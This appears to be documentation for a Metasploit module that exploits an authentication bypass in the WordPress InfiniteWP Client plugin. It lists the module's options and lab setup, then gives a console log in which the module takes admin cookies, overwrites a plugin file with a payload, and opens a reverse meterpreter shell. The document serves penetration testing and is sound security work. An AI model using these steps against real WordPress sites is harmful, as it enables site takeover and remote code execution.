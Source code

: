 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

WordPress >= 4.9 is currently not supported due to a breaking WordPress
API change. Tested against 4.8.3.

### Setup

1. Install WordPress 4.8.3 or older
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4 on WordPress 4.8.3

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > show missing

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8000
rport => 8000
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] WordPress 4.8.3 is a supported target
[*] Found version 1.9.4.4 in the custom file
[+] The target appears to be vulnerable.
[*] Bypassing auth for admin at http://127.0.0.1:8000/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7Ca0f3f416f7c60a7e0ea1b17af88d4a5e38d96141451f94fe27f605806f03f0c2; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7Cfeffe683bdfaaa670102e6564130394440510bf97e1ad09713ef1c3aa5627bfc;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:51923) at 2020-02-07 12:11:28 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : c7f8fbe7b083
OS          : Linux c7f8fbe7b083 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
